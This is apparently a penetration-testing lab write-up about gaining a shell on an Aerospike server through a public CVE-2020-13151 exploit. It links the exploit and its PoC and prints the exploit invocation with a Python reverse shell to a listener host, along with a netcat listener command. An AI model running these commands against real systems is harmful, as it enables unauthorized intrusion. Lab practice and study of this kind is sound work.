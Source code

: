 **Searching public exploit for Aerospike:**
![[Pasted image 20240602192213.png]]
Will choose 2nd one, because it has POC

**Link for the Exploit:https://github.com/b4ny4n/CVE-2020-13151
![[Pasted image 20240602192354.png]]
So we need all three programs to get a shell from the target.

**I have copied all three Programs to my local directory:**
![[Pasted image 20240602192615.png]]

**Lets run the Program According to the POC:https://b4ny4n.github.io/network-pentest/2020/08/01/cve-2020-13151-poc-aerospike.html
![[Pasted image 20240602192711.png]]

**Lets try now:**

```
python3 exp.py --ahost 192.168.191.143 --pythonshell --lhost 192.168.45.177 --lport 443
```

![[Pasted image 20240602192823.png]]
**On the same time i have started Netcat Listener on Port 443:**

```
rlwrap nc -nvlp 443
```

![[Pasted image 20240602192938.png]]
Alright, We are into the machine.....!


Will go to Lateral Movement Now.